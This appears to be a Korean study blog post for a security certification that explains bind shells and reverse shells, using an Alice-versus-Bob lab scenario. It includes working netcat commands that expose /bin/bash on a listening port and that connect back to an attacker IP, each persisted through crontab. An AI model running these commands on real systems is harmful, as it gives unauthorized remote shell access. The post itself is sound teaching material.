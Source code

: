 ```yaml
---

layout: single
title: 바인드 쉘(Bind Shell), 리버스 쉘(Reverse Shell)   
category: computer
tag: [보안, security, 정보보안기사]
published: true
 
---
```


## Outline
- 바인드 쉘과 리버스쉘의 쉘 획득 원리 설명
- 리버스 쉘이 성공하게 되는 서버의 취약 설정 설명
- 바인드 쉘과 리버스 쉘을 이용한 쉘 권한 획득 실습

## 바인드 쉘 (Bind Shell)

클라이언트/공격자가 서버에 접속하여 서버의 쉘을 획득하는 방식


![Pasted image 20230509205411.png]({{site.url}}/_images/2023-05-14-01/Pasted%20image%2020230509205411.png)

1. Alice는 서버 쉘 획득을 위해 사전에 서버에 접속하여 **nc -lvp 1234 -e /bin/bash** 명령을 **crontab(서버스케줄러)**\에 등록하여 1234 포트를 listen 상태로 유지한다.
2. 이후 Alice는 언제든지 Bob의 서버에 1234포트로 원격 접속 할 수 있다.    
![screenshot 1.png](/_images/2023-05-14-01/screenshot%201.png)

## 리버스 쉘 (Reverse Shell)

타겟 서버가 클라이언트/공격자로 접속해 클라이언트가 서버의 쉘을 획득하는 방식
일반적으로 **서버방화벽(iptables)** 의 인바운드 정책의 경우 공개 서비스에 대해서만 화이트리스트 방식으로 엄격히 관리하지만 아웃바운드 정책의 경우 비교적 느슨하게 관리하는 취약점을 노린 공격이다.

![Pasted image 20230509220225.png](/_images/2023-05-14-01/Pasted%20image%2020230509220225.png)

1. Alice는 기존 바인드 쉘(Bind Shell)을 이용한 공격에 실패하고 그 원인을 방화벽 설치로 추측 하여 리버스 쉘(Reverse Shell)공격을 시도 한다.
2. Alice는 사전에 서버에 접속하여 자신의 PC에 접속을 시도하여 쉘(/bin/shell)을 실행하는 명령 **nc -e /bin/bash 192.168.0.106** 을 **crontab(서버스케줄러)** 에 등록한다.
3. 이후 Alice는 자신의 PC에 1234포트를 listen상태로 놓고(**nc -lp 1234**) 서버의 접속요청을 기다린다.
4. 서버요청이 연결되면 서버의 쉘 사용이 가능하다.    
![screenshot 2.png](/_images/2023-05-14-01/screenshot%202.png)

## connection documents
- 
